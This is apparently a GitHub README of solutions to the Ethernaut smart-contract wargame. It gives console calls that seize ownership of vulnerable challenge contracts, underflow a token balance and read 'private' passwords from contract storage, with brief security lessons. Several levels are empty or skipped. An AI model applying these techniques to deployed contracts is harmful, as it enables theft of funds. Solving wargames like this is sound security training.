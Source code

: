 # Ethernaut Solution

This repository contains solutions to various Ethernaut challenges. Each challenge is addressed with the necessary steps to exploit vulnerabilities and solve the levels.

## 1. Hello Ethernaut
Contract: `0xeF08E3A4FF2e36f81D0a746947C4bd68BB1A67e9`
```javascript
await contract.password();
await contract.authenticate('ethernaut0');
```

## 2. Fallback
Contract: `0x12c6202f6911b88781c04986F4aB65e58b9A0585`
1. Contribute some amount of ETH using the `contribute()` function:
   ```javascript
   await contract.contribute.sendTransaction({ value: toWei(".00001") });
   ```
2. Send some ETH to the contract (CALLDATA) to trigger the `receive()` method and satisfy the `require` condition, changing the owner:
   ```javascript
   await contract.sendTransaction({ value: toWei(".0001") });
   ```
3. Withdraw to reduce the contract's balance to 0:
   ```javascript
   await contract.withdraw();
   ```

## 3. Fallout
Contract: `0x1D34c5e3320f5D9bc5fC8079685C5F2fb1a54B8f`
```javascript
await contract.Fal1out();
```
The story of Rubixi illustrates the importance of proper naming in constructors. Changing a contract's name without renaming the constructor can lead to vulnerabilities, as seen in the Rubixi case where the constructor was not renamed, allowing attackers to claim ownership.

## 4. Coin Flip
Generating random numbers in Solidity is tricky due to the visibility of contract data and miners' ability to manipulate certain values. Using Chainlink VRF or other methods like Bitcoin block headers, RANDAO, or Oraclize can provide more secure randomness.

## 5. Telephone
Contract: `0xb17c2d73Bb8FfBF052a2d441ef6758285eabFCa8`
Confusing `tx.origin` with `msg.sender` can lead to phishing attacks. Example attack steps:
1. Use `tx.origin` to determine whose tokens to transfer:
   ```javascript
   function transfer(address _to, uint _value) {
       tokens[tx.origin] -= _value;
       tokens[_to] += _value;
   }
   ```
2. Attacker tricks victim into sending funds to a malicious contract:
   ```javascript
   function () payable {
       token.transfer(attackerAddress, 10000);
   }
   ```
3. In this scenario, `tx.origin` is the victim’s address, causing funds to be transferred to the attacker.

## 6. Token
Contract: `0xC16237e24c6A1377b8A0a41e520c7D1E5c122863`
```javascript
await contract.transfer("address", 21);
```
Overflows are common in Solidity and should be checked with control statements or by using OpenZeppelin's SafeMath library to prevent overflows.

## 7. Delegate
Contract: `0xE1F15e570836872154aaaF1aA4B2D867c0b0264c`
`abi.encodeWithSignature("pwn()")` is `dd365b8b`.
```javascript
await contract.sendTransaction({ from: player, data: "dd365b8b" });
```

## 8. Force
Contract: `0x32f8DCA769F10B9466b71f3FCBd3EC7258700c1a`
A contract can receive Ether even without a payable fallback function through self-destruction. Thus, don’t rely on `address(this).balance == 0` for contract logic.

## 9. Vault
Contract: `0xdFF1a558c01ee357a27E1AbF825d4bCfD6a00C9B`
```javascript
web3.eth.getStorageAt(contractAddress, 1, (e, v) => console.log(web3.utils.toAscii(v)));
web3.eth.getStorageAt(contractAddress, 1);
await contract.unlock(web3.eth.getStorageAt(contractAddress, 1));
// or
await contract.unlock('0x412076657279207374726f6e67207365637265742070617373776f7264203a29');
```

## 10. King
Contract: `0x6848C1951fB6bb65d5168B2609820DEB3F6b4b48`

## 11. [Level Unspecified]

## 12. Elevator
Contract: `0x6Cf4882c86753a32B03c9343Ba80B3A6f5BB6117`
Use the `view` function modifier to prevent state modifications:
```solidity
function isLastFloor(uint floor) public view returns (bool) {
    // implementation
}
```
An alternative is to build a view function that returns different results based on input data without modifying the state.

## 13. Privacy
Contract: `0x55E4Ef0F53b13AbF16384827dAD6C385ce5c58b7`
```javascript
const keyData = await web3.eth.getStorageAt(contract.address, 5, console.log);
const key16 = keyData.slice(0, 34);
```

## 14. GatekeeperOne

## 16. NaughtCoin
Contract: `0x53732c8ef2867d6855598ACD7D7aBd0C48Cc0637`
Understand ERC20 tokens and their functions. Use `allow` and `transferFrom` to transfer tokens due to inheritance from ERC20.

## 22. Shop
Contracts can manipulate data seen by other contracts. Avoid changing state based on external, untrusted contract logic.

---